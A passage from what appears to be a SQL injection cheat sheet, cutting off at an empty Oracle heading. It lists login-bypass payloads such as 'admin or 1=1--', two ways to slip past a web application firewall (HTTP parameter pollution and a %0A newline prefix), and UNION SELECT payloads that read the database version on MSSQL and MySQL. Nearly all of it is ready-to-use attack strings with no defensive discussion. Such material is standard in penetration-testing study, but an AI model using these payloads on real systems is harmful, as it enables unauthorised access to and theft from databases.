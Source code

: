 ```txt
'; OR 1=1#

admin or 1=1--
admin or 1=1-- -
admin or 1=1#
```

<br /><br />

## WAF Bypass

Reference: (https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)[https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF]

If website filters to prevent our payloads, we need to bypass the filter.

### HTTP Parameter Pollution

We may inject by splitting the parameter values on the same keys.

```html
/?id='+select+1&id=2,3+from+users+where+id=1-- -
```

### New Line (’%0A’)

By prepending the new line (URL encoded to ‘%0A’), subsequent syntax may circumvent the filtering.

```html
/?id=%0A' OR 1=1-- -
```

<br /><br />

## Version Detection

### MSSQL

```html
' UNION SELECT @@version--
' UNION SELECT NULL,@@version--
```

### MySQL

```html
' UNION SELECT @@version-- -
' UNION SELECT @@version#

' UNION SELECT NULL,@@version-- -
' UNION SELECT NULL,@@version#
```

### Oracle
